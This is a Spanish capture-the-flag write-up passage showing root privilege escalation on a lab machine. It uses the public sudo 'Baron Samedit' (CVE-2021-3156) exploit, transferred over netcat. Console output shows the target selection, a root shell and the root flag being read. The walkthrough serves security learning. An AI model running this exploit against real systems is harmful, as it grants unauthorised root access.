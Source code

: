 ![sudo](./2.png) 

La versión del CVE me despistó un poco, pero leyendo vi que se debería referir a la `CVE-2021-3156` conocida también por `Baron Samedit`. He encontrado una web que lo explica bastante bien, https://medium.com/mii-cybersec/privilege-escalation-cve-2021-3156-new-sudo-vulnerability-4f9e84a9f435

Así que sólo tengo que compilar los fuentes de https://github.com/blasty/CVE-2021-3156
y ejecutar el fichero generado: ./sudo-hax-me-a-sandwich

* No puedo compilarlo en la máquina vulnerada, así que lo hago en mi parrot y luego lo paso todo a la otra máquina con netcat

```php 
thugger@drippingblues:~/sandwich/CVE-2021-3156-main$ ls -l
total 48
-rwxr-xr-x 1 thugger thugger  1994 Şub  1  2021 brute.sh
-rw-r--r-- 1 thugger thugger  4420 Şub  1  2021 hax.c
-rw-r--r-- 1 thugger thugger   407 Şub  1  2021 lib.c
drwxr-xr-x 2 thugger thugger  4096 Şub 10 19:43 libnss_X
-rw-r--r-- 1 thugger thugger   264 Şub  1  2021 Makefile
-rw-r--r-- 1 thugger thugger  1187 Şub  1  2021 README.md
-rwxr-xr-x 1 thugger thugger 17256 Şub 10 19:43 sudo-hax-me-a-sandwich
```
* Al ejecutarlo me dice que tengo que poner el `target`
```php 
** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------
``` 
* Así que quedaría
```php 
$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# whoami
root
```
* Obtengo la bandera de root
```console
# ls -l
total 4
-r-x------ 1 root root 32 Sep 19 19:35 root.txt
# cat root.txt	
78--------------------
```

